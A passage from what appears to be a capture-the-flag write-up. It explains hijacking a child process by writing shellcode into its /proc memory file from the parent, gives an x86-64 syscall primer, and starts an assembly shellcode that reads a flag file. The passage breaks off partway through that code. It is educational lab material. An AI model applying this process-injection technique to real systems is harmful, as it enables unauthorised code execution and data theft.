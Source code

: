 ```
000000c0: 1f84 0000 0000 000f 1f00 f30f 1efa 4157  ..............AW
000000d0: 4c8d 3d63 2b00 0041 5649 89d6 4155 4989  L.=c+..AVI..AUI.
000000e0: f541 5441 89fc 5548 8d2d 542b 0000 534c  .ATA..UH.-T+..SL
000000f0: 29fd 4883 ec08 e82f fdff ff48 c1fd 0374  ).H..../...H...t
```

You can quickly verify that this is indeed the currently executing code by disassembling the binary and comparing the `main` section:
```
$ objdump -d read_proc_self
```

### Re-evaluating our Choices

If *we* could control such a file for any process other than our own we could easily manipulate the execution and force the hijacked process into revealing the flag to us.
An easy target seems to be the created child process as the service has the courtesy of revealing its PID to us!

Usually access to this file is restricted by a ptrace access mode, essentially disallowing arbitrary processes from reading / writing arbitrary process memory.
But luckily our shellcode will execute as the parent process of the process we would like to manipulate memory from, which satisfies the access mode!


To summarize, our analysis yielded the following plan:
* We create a shellcode which injects code into the spawned child process.
* This code manipulates the child process to read the file `/home/user/flag` and simply display its contents to us. 

### Excourse: Assembly 101

At this point a quick recap of the most important aspects for writing assembler:
* If you are not familiar with the assembler syntax I suggest you read the [GNU Assembler Wiki](https://en.wikibooks.org/wiki/X86_Assembly/GAS_Syntax) and jump back and forth between this writeup and this very handy [cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
* Calling conventions of system calls:
    * Number of system call in `%rax`
    * Arguments are passed in order `%rdi`, `%rsi`, `%rdx`, `%r10`
    * Results are stored in `%rax`
* Some important system calls used:
    * `0 - read(unsigned fd, char *buf, size_t count)` for reading files
    * `1 - write(unsigned fd, const char *buf, size_t count)` for writing files
    * `2 - open(const char *filename, int flags)` for opening files
    * `8 - lseek(unsigned fd, off_t offset, unsigned origin)` for navigating within files
    * `60 - exit(int code)` for graceful exits

### `cat /home/user/flag` - Assembly Version

We will start by creating a shellcode which dumps `/home/user/flag` to stdout:

```Assembly
# file cat-flag.s
# compile with:
# as -o cat-flag.o cat-flag.s

.section .text

.globl _start

_start:

    movq $0x0067616c662f7265, %rdi      
    pushq %rdi                          # store "er/flag\x00" on stack
                                        # note the reverse byte order
    movq $0x73752f656d6f682f, %rdi
```